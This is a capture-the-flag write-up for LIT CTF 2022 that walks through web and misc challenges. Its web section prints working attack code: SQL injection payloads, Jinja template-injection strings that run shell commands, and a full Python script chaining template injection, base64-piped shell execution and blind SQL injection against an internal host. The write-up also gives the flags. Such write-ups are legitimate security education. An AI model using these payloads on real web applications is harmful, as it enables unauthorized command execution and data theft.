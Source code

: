 ```yaml
---
title: LIT CTF 2022
date: 2022-07-25 19:45:37
tags: ['voynich', 'CTF']
categories: ['CTF', 'security', 'writeup']
---
```

LIT(Lexington Informatics Tournament) is a competitive programming tournament for middle/high school students,
hosted by members of the LexMACS club along with many guest problemsetters/testers.
 
## Web

* Guess The Pokemon
* Kevin's Cookies
* EYANGCH Fan Art Maker
* Flushed Emoji 

### Guess The Pokemon
If you check the code, you will see that there is a sql injection vulnerability in it
```python
cur.execute("SELECT * FROM pokemon WHERE names=" + name + "")
```
payload 
```sql
1 OR 1=1--
```

```
LITCTF{flagr3l4t3dt0pok3m0n0rsom3th1ng1dk}
```

### Kevin's Cookies

In cookies, there is a key called likeCookie whose value is false.
If we change the value to true, we will see the following message.

```
Oh silly you. What do you mean you like a true cookie?
I have 20 cookies numbered from 1 to 20, and all of them are made from super true authentic recipes.
```

script

```python
import requests

url = "http://litctf.live:31778/"

for i in range(20):
	r = requests.get(url, cookies={"likeCookie":str(i)})
	if "LITCTF{" in r.text:
		print("likeCookie : ", i)
		break
```

```
LITCTF{Bd1mens10n_15_l1k3_sup3r_dup3r_0rzzzz}
```

### EYANGCH Fan Art Maker

In this challenge, we only need to change the location of the flag component
```xml
<flag x="200" y="450"></flag>
```

```
LITCTF{wh4t_d03s_CH_1n_EyangCH_m3an???}
```

### Flushed Emoji

This challenge has several vulnerabilities.
The first vulnerability is related to the password field.
If you check the code, you will notice the vulnerability of SSTI

```python
return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");
```

For example, if you enter the following payload
```python
{{2+2}}

4
```

There is also a sql injection vulnerability in the `data-server` project

```python
x = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
```

Now we use SSTI to execute command

```python
{{config['__class__']['__init__']['__globals__']['os']|attr('popen')('ls')|attr('read')()}}
```

```
curl -X POST "http://litctf.live:31781" -d "username=&password={{config['__class__']['__init__']['__globals__']['os']|attr('popen')('ls')|attr('read')()}}"


ok thank you for your info i have now sold your password (main.py
requirements.txt
run.sh
static
templates
) for 2 donuts :)
```

If we print the main.py file, we will encounter the address http://172.24.0.8:8080/runquery, this address is not accessible from the outside,
and this shows that we do not have access to the data-server program from the outside.

In the next step, we should send requests containing sql to the address http://172.24.0.8:8080/runquery

```python
import requests
import base64

char = list(".*+,!#$%&0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}")

url = "http://litctf.live:31781"
internal_url = "http://172.24.0.8:8080/runquery"

ssti_payload  = "{{config['__class__']['__init__']['__globals__']['os']|attr('popen')('%s')|attr('read')()}}"
rce_payload   = "echo {}| base64 -d | sh"
python_script = "python3 -c \"import json,requests;print(requests.post('%s', data=json.dumps({'username':'%s','password':'0'}), headers={\\\"Content-type\\\": \\\"application/json\\\"}).text)\""
sql_payload   = "flag\\'and (Select hex(substr(password,1,{})) from users limit 1 offset 0) = hex(\\\'{}\\\')--"

flag = "LITCTF{"

for c in range(len(char)):
	for i in range(len(char)):
		tmp = flag+char[i]
		
		script = python_script % (internal_url, sql_payload.format(len(flag)+1,tmp))
		script = str(base64.b64encode(script.encode("utf-8")), "utf-8")
		payload = ssti_payload % rce_payload.format(script)
		
		r = requests.post(url, data={"username":"","password":payload})
		if "True" in r.text:
			flag += char[i]
			print("FLAG : "+ flag)
			break
```

* There are a few points in the script above
	* Because there is no curl in the server, we had to use a python script to send the request.
	* The server filters the character "." , to bypass this filter I coded the script with base64.

![Flushed Emoji](/assets/post/LITCTF2022/FlushedEmoji.png)

## misc

* CodeTiger orz Is Meta
* kirby!!!

### CodeTiger orz Is Meta

```
strings ./codetigerfanpic.png

<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image::ExifTool 12.36'>
<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
 <rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:description>
   <rdf:Alt>
    <rdf:li xml:lang='x-default'>t1g2r_</rdf:li>
   </rdf:Alt>
  </dc:description>
  <dc:rights>
   <rdf:Alt>
    <rdf:li xml:lang='x-default'>orz}</rdf:li>
   </rdf:Alt>
  </dc:rights>
  <dc:title>
   <rdf:Alt>
    <rdf:li xml:lang='x-default'>LITCTF{c0de_</rdf:li>
   </rdf:Alt>
  </dc:title>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end='r'?>
```

```
LITCTF{c0de_t1g2r_orz}
```

### kirby!!!

This challenge contains a sound file that I opened with `sonic visualizer` and added the `spectrogram` layer


![kirby!!!](/assets/post/LITCTF2022/kirby.png)

```
LITCTF{K1RBY1SCOOL!}
```